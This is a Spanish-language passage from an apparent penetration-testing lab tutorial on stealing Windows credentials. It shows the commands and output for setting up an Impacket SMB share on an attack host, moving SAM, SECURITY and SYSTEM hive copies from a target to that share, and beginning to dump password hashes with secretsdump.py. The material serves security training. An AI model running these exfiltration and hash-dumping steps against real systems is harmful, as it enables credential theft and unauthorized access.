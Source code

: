 ```bash
sherlock28@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Archivo de configuración analizado
[*] Callback agregado para UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback agregado para UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Archivo de configuración analizado
[*] Archivo de configuración analizado
[*] Archivo de configuración analizado
```

Una vez que tengamos el recurso compartido en funcionamiento en nuestro host de ataque, podemos usar el comando `move` en el objetivo Windows para mover las copias de los hives al recurso compartido.

## Moviendo Copias de los Hives al Recurso Compartido

```plaintext
C:\> move sam.save \\10.10.15.16\CompData
1 archivo(s) movido.

C:\> move security.save \\10.10.15.16\CompData
1 archivo(s) movido.

C:\> move system.save \\10.10.15.16\CompData
1 archivo(s) movido.
```

Luego podemos confirmar que nuestras copias de los hives se movieron con éxito al recurso compartido navegando al directorio compartido en nuestro host de ataque y usando `ls` para listar los archivos.

## Confirmando que las Copias de los Hives se Transfirieron al Host de Ataque

```bash
sherlock28@htb[/htb]$ ls
sam.save  security.save  system.save
```

## Volcando Hashes con secretsdump.py de Impacket

Una herramienta increíblemente útil que podemos utilizar para volcar los hashes fuera de línea es `secretsdump.py` de Impacket. Impacket se puede encontrar en la mayoría de las distribuciones modernas de pruebas de penetración. Podemos buscarlo usando `locate` en un sistema basado en Linux:

### Localizando secretsdump.py

```bash
sherlock28@htb[/htb]$ locate secretsdump
```

Usar `secretsdump.py` es un proceso simple. Todo lo que debemos hacer es ejecutar `secretsdump.py` usando Python y luego especificar cada archivo hive que recuperamos del host objetivo.
